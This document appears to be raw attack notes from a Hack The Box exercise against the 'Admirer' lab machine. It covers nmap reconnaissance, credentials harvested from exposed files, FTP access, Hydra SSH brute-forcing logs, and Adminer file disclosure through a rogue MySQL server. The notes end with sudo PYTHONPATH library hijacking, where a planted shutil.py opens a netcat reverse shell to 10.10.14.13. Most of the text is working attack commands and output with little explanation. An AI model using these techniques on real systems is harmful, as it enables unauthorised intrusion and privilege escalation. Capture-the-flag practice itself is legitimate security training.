







    21/tcp open  ftp     vsftpd 3.0.3
    22/tcp open  ssh     OpenSSH 7.4p1 Debian 10+deb9u7 (protocol 2.0)
    | ssh-hostkey: 
    |   2048 4a:71:e9:21:63:69:9d:cb:dd:84:02:1a:23:97:e1:b9 (RSA)
    |   256 c5:95:b6:21:4d:46:a4:25:55:7a:87:3e:19:a8:e7:02 (ECDSA)
    |_  256 d0:2d:dd:d0:5c:42:f8:7b:31:5a:be:57:c4:a9:a7:56 (ED25519)
    80/tcp open  http    Apache httpd 2.4.25 ((Debian))
    | http-methods: 
    |_  Supported Methods: GET HEAD POST OPTIONS
    | http-robots.txt: 1 disallowed entry 
    |_/admin-dir
    |_http-server-header: Apache/2.4.25 (Debian)
    |_http-title: Admirer
    Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel


http://10.10.10.187/robots.txt
    # This folder contains personal contacts and creds, so no one -not even robots- should see it - waldo
    Disallow: /admin-dir

http://10.10.10.187/admin-dir/



nmap --script ftp-anon 10.10.10.187 -p 21
FTP anon login not allowed






http://10.10.10.187/admin-dir/contacts.txt
    ##########
    # admins #
    ##########
    # Penny
    Email: p.wise@admirer.htb


    ##############
    # developers #
    ##############
    # Rajesh
    Email: r.nayyar@admirer.htb

    # Amy
    Email: a.bialik@admirer.htb

    # Leonard
    Email: l.galecki@admirer.htb


    #############
    # designers #
    #############
    # Howard
    Email: h.helberg@admirer.htb

    # Bernadette
    Email: b.rauch@admirer.htb


users.txt
    Penny
    Rajesh
    Amy
    Leonard
    Howard
    Bernadette
    p.wise
    r.nayyar
    a.bialik
    l.galecki
    h.helberg
    b.rauch

sudo bash -c 'echo "10.10.10.187 admirer.htb" >> /etc/hosts'


http://10.10.10.187/admin-dir/credentials.txt

[Internal mail account]
w.cooper@admirer.htb
fgJr6q#S\W:$P

[FTP account]
ftpuser
%n?4Wz}R$tTF7

[Wordpress account]
admin
w0rdpr3ss01!

## FTP
kali@kali:~/htb/boxes/admirer/10.10.10.187$ ftp 10.10.10.187
Connected to 10.10.10.187.
220 (vsFTPd 3.0.3)
Name (10.10.10.187:kali): ftpuser
331 Please specify the password.
Password:
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> dir
200 PORT command successful. Consider using PASV.
150 Here comes the directory listing.
-rw-r--r--    1 0        0            3405 Dec 02  2019 dump.sql
-rw-r--r--    1 0        0         5270987 Dec 03  2019 html.tar.gz
226 Directory send OK.


### dump.sql
Database: admirerdb
Server version	10.1.41-MariaDB-0+deb9u1
$servername = "localhost";
$username = "waldo";
$password = "Wh3r3_1s_w4ld0?";

$servername = "localhost";
$username = "waldo";
$password = "]F7jLHw:*G>UPrTo}~A"d6b";
$dbname = "admirerdb";


### html.tar.gz
    # This folder contains personal stuff, so no one (not even robots!) should see it - waldo
    Disallow: /w4ld0s_s3cr3t_d1r

    [Bank Account]
    waldo.11
    Ezy]m27}OREc$

    [Internal mail account]
    w.cooper@admirer.htb
    fgJr6q#S\W:$P

    [FTP account]
    ftpuser
    %n?4Wz}R$tTF7

    [Wordpress account]
    admin
    w0rdpr3ss01!


### admin_tasks.php


```php
if(isset($_REQUEST['task']))
  {
    $task = $_REQUEST['task'];
    if($task == '1' || $task == '2' || $task == '3' || $task == '4' ||
       $task == '5' || $task == '6' || $task == '7')
    {
      /*********************************************************************************** 
         Available options:
           1) View system uptime
           2) View logged in users
           3) View crontab (current user only)
           4) Backup passwd file (not working)
           5) Backup shadow file (not working)
           6) Backup web data (not working)
           7) Backup database (not working)

           NOTE: Options 4-7 are currently NOT working because they need root privileges.
                 I'm leaving them in the valid tasks in case I figure out a way
                 to securely run code as root from a PHP page.
      ************************************************************************************/
      echo str_replace("\n", "<br />", shell_exec("/opt/scripts/admin_tasks.sh $task 2>&1"));
    }
    else
    {
      echo("Invalid task.");
    }
  }
```


$_SERVER['DOCUMENT_ROOT']	/var/www/html


kali@kali:~/htb/boxes/admirer/10.10.10.187$ hydra -t 1 -v -I -L users.txt -P passwords.txt ssh://10.10.10.187 
Hydra v9.2-dev (c) 2021 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2021-02-07 13:42:08
[WARNING] Restorefile (ignored ...) from a previous session found, to prevent overwriting, ./hydra.restore
[DATA] max 1 task per 1 server, overall 1 task, 110 login tries (l:22/p:5), ~110 tries per task
[DATA] attacking ssh://10.10.10.187:22/
[VERBOSE] Resolving addresses ... [VERBOSE] resolving done
[INFO] Testing if password authentication is supported by ssh://waldo@10.10.10.187:22
[INFO] Successful, password authentication is supported by ssh://10.10.10.187:22
[STATUS] 29.00 tries/min, 29 tries in 00:01h, 81 to do in 00:03h, 1 active
[STATUS] 27.00 tries/min, 54 tries in 00:02h, 56 to do in 00:03h, 1 active
[STATUS] 26.33 tries/min, 79 tries in 00:03h, 31 to do in 00:02h, 1 active
[22][ssh] host: 10.10.10.187   login: ftpuser   password: %n?4Wz}R$tTF7
[STATUS] 26.75 tries/min, 107 tries in 00:04h, 3 to do in 00:01h, 1 active
[STATUS] attack finished for 10.10.10.187 (waiting for children to complete tests)
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2021-02-07 13:46:15


https://askubuntu.com/questions/349631/why-is-my-ssh-connection-dropping-immediately-after-i-enter-my-password

ssh ftpuser@10.10.10.187 sed -i '/exit\ 0/d' .bashrc .bash_profile .profile .login


http://10.10.10.187/utility-scripts/db_admin.php 
does not exist anymore

none of the passwords work


https://sansec.io/research/adminer-4.6.2-file-disclosure-vulnerability

sudo service mysql start
did not work...

In MySQL, by default, the username is root and there's no password


docker run --name mysql --network host --cap-add NET_ADMIN -e MYSQL_ROOT_PASSWORD=my-secret-pw -p 3306:3306 mysql:latest




docker run --name mysql --network host --cap-add NET_ADMIN -e MYSQL_ROOT_PASSWORD=my-secret-pw -p 3306:3306 mysql:5


create database pwn;
CREATE TABLE my_data (data VARCHAR(256));

LOAD DATA LOCAL INFILE '/var/www/html/index.php' 
INTO TABLE pwn.my_data
FIELDS TERMINATED BY "\n"



$username = "waldo";
$password = "&<h5b~yK3F#{PaPB&dA}{H>";


kali@kali:~/htb/boxes/admirer/10.10.10.187$ hydra -t 1 -v -I -L users.txt -P passwords.txt ssh://10.10.10.187 
Hydra v9.2-dev (c) 2021 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2021-02-07 17:49:57
[DATA] max 1 task per 1 server, overall 1 task, 132 login tries (l:22/p:6), ~132 tries per task
[DATA] attacking ssh://10.10.10.187:22/
[VERBOSE] Resolving addresses ... [VERBOSE] resolving done
[INFO] Testing if password authentication is supported by ssh://waldo@10.10.10.187:22
[INFO] Successful, password authentication is supported by ssh://10.10.10.187:22
[22][ssh] host: 10.10.10.187   login: waldo   password: &<h5b~yK3F#{PaPB&dA}{H>


 ssh waldo@10.10.10.187

 scp /opt/privesc/privilege-escalation-awesome-scripts-suite/linPEAS/linpeas.sh waldo@10.10.10.187:


 [+] Users with console
                     
amy:x:1004:1007:Amy Bialik:/home/amy:/bin/bash                               
bernadette:x:1007:1010:Bernadette Rauch:/home/bernadette:/bin/bash           
howard:x:1008:1011:Howard Helberg:/home/howard:/bin/bash                     
leonard:x:1005:1008:Leonard Galecki:/home/leonard:/bin/bash                  
penny:x:1002:1005:Penny Wise:/home/penny:/bin/bash                           
rajesh:x:1003:1006:Rajesh Nayyar:/home/rajesh:/bin/bash                      
root:x:0:0:root:/root:/bin/bash             
waldo:x:1000:1000:Waldo Cooper:/home/waldo:/bin/bash     


[+] Readable files belonging to root and readable by me but not world readable
-rwxr----- 1 root admins 198 Dec  2  2019 /opt/scripts/backup.py
-rw-r----- 1 root waldo 33 Feb  7 12:52 /home/waldo/user.txt

[+] Mails (limit 50)
     1396     16 -rw-rw----   1 waldo    mail        15412 Apr 29  2020 /var/mail/waldo
     1396     16 -rw-rw----   1 waldo    mail        15412 Apr 29  2020 /var/spool/mail/waldo

total 16K
drwxr-xr-x 2 root admins 4.0K Dec  2  2019 .
drwxr-xr-x 3 root root   4.0K Nov 30  2019 ..
-rwxr-xr-x 1 root admins 2.6K Dec  2  2019 admin_tasks.sh
-rwxr----- 1 root admins  198 Dec  2  2019 backup.py

waldo@admirer:/var/backups$ id
uid=1000(waldo) gid=1000(waldo) groups=1000(waldo),1001(admins)

waldo@admirer:/var/backups$ sudo -l
[sudo] password for waldo: 
Matching Defaults entries for waldo on admirer:
    env_reset, env_file=/etc/sudoenv, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin, listpw=always

User waldo may run the following commands on admirer:
    (ALL) SETENV: /opt/scripts/admin_tasks.sh


backup_web()
{                                                                              
    if [ "$EUID" -eq 0 ]                                                       
    then                                                                       
        echo "Running backup script in the background, it might take a while..."
        /opt/scripts/backup.py &                           
    else                                                                       
        echo "Insufficient privileges to perform the selected operation."
    fi
}


#!/usr/bin/python3

from shutil import make_archive

src = '/var/www/html/'

# old ftp directory, not used anymore
#dst = '/srv/ftp/html'

dst = '/var/backups/html'

make_archive(dst, 'gztar', src)


https://medium.com/analytics-vidhya/python-library-hijacking-on-linux-with-examples-a31e6a9860c8

Redirecting Python Library Search through PYTHONPATH Environment Variable


waldo@admirer:/dev/shm$ cat shutil.py 
import os 

def make_archive(a,b,c):
  os.system("/bin/nc 10.10.14.13 1337 -e /bin/bash") 